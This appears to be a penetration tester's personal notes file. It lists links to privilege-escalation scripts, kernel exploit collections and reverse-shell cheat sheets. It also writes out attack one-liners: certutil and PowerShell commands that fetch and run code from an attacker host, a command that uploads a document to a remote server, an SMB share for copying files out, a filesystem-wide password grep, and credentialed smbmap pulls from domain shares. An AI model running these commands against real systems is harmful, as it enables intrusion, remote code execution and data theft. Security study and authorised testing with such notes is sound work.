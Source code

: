 # My notes

###### My General Notes.

  This notes contains link of tools, link of cheatsheets, Commands etc.

## Python pip

1. `Python2 -m pip YOUR_COMMAND` OR `pip2 YOUR_COMMAND`

2. `Python3 -m pip YOUR_COMMAND` OR `pip3 YOUR_COMMAND`

## Python3 server

1. Local server in current directory: `python3 -m http.server PORT`

2. Local server in specified directory:

    `python3 -m http.server PORT --directory DIRECTORY`

## Msfvenom CheatSheet

[MSFVenom - CheatSheet - HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom)

## Peas Family

LinPeas and Winpeas located ate my [`Privesc_scripts`](https://github.com/CalegariMindSec/Privesc_scripts) repository.

[GitHub - carlospolop/PEASS-ng: PEASS - Privilege Escalation Awesome Scripts SUITE (with colors)](https://github.com/carlospolop/PEASS-ng)

## Windows PrivEsc Scripts

[`My Privesc Scripts - Windows`](https://github.com/CalegariMindSec/Privesc_scripts/tree/main/Windows_Privesc)

[PowerSploit/Privesc at master · PowerShellMafia/PowerSploit · GitHub](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

[GitHub - bitsadmin/wesng: Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng)

[GitHub - 7Ragnarok7/Windows-Exploit-Suggester-2: A tool to recommend available exploits for Windows Operating Systems](https://github.com/7Ragnarok7/Windows-Exploit-Suggester-2)

[GitHub - r3motecontrol/Ghostpack-CompiledBinaries: Compiled Binaries for Ghostpack (.NET v4.0)](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

[GhostPack · GitHub](https://github.com/GhostPack)

### Windows PrivEsc Kernel Exploits

[Windows Exploits](https://github.com/abatchy17/WindowsExploits)

[GitHub - SecWiki/windows-kernel-exploits: windows-kernel-exploits Windows平台提权漏洞集合](https://github.com/SecWiki/windows-kernel-exploits)

[Exploitdb-bin-sploits/bin-sploits at master · offensive-security/exploitdb-bin-sploits · GitHub](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits)

### Windows PrivEsc CheatSheet

[Windows Local Privilege Escalation - HackTricks](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)

[Notes TCM Course](https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources)

[PayloadAllTheThings - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

### Linux PrivEsc Cheatsheet

[`My Privesc Scripts - Linux`](https://github.com/CalegariMindSec/Privesc_scripts/tree/main/Linux_Privesc)

[Linux Privilege Escalation - HackTricks Privilege Escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

[PayloadAllTheThings - Linux ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

### Windows Binaries

[LOLBAS Project](https://lolbas-project.github.io/)

### Unix Binaries

[GTFOBins](https://gtfobins.github.io/)

### Listerners (Better Alternatives to Netcat)

[Netpwn](https://github.com/anthares101/netpwn)

[Pwncat](https://github.com/calebstewart/pwncat)

### File Download - Windows

1. ```powershell
   certutil.exe -urlcache -f http://IP:PORT/FILE.exe FILE.exe
   ```

2. ```powershell
   powershell -c (new-object System.Net.WebClient).DownloadFile('http://IP:PORT/FILE', 'C:\FULL\PATH\FILE')
   ```

3. ```powershell
   powershell.exe -command iwr -Uri http://IP:PORT/FILE -OutFile "C:\PATH\FILE"
   ```

4. ```powershell
    powershell.exe wget http://IP:PORT/FILE -OutFile FILE
   ```

5. ```powershell
   powershell iex(new-object net.webclient).downloadstring('http://IP:PORT/FILE')
   ```

6. ```powershell
   Start-BitsTransfer -Source https://IP:PORT/FILE -Destination "C:\FULL\PATH\FILE"
   ```
7. ```python3
   impacket-smbserver share . -smb2support (Attacker Machine)
   copy C:\File\To\PATH \\AttackerIP\share\
   ```

### File Upload - Windows

1. ```powershell
   powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
   ```

### File Download - Linux

1. ```bash
   wget http://IP:PORT/FILE
   ```

2. ```bash
   curl http://IP:PORT/FILE -o FILE
   ```

### Python3 tty Shell Spawning

1. ```python
   python -c 'import pty; pty.spawn("/bin/sh")'
   ```

2. ```python
   python3 -c 'import pty; pty.spawn("/bin/sh")'
   ```

### Active Directory Exploitation

[GitHub - S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet: A cheat sheet that contains common enumeration and attack methods for Windows Active Directory.](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
[CME cheat sheet](https://wiki.porchetta.industries/)
[Kerberos Attack](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

### Reverse shell

[Reverse Shell Generator](https://www.revshells.com/)
[Reverse shell cheat sheet PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### Find Passwords Linux

  *
      ```
      grep --color=auto -rnw '/' -ie "Password" --color=always 2>/dev/null
      ```

### Download Scripts From SBM Netlogon and Sysvol

  *
    ```
    smbmap -u <user> -p '<password>' -d <domain> -H <dc-ip> -R SYSVOL --depth 10 -A "^.*\.(vbs|ps1|bat|vbe)$"
    ```

  *
    ```
    smbmap -u <user> -p '<password>' -d <domain> -H <dc-ip> -R NETLOGON --depth 10 -A "^.*\.(vbs|ps1|bat|vbe)$"
    ```
